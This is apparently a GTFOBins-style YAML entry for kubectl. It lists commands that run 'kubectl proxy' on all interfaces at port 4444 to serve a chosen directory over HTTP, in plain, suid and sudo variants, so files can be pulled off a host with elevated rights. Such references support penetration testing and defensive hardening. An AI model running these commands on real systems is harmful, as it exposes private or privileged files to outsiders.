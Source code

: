 ```yaml
---
description: It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`.
functions:
  file-upload:
    - code: |
        LFILE=dir_to_serve
        kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
  suid:
    - code: |
        LFILE=dir_to_serve
        ./kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
  sudo:
    - code: |
        LFILE=dir_to_serve
        sudo kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
---
```

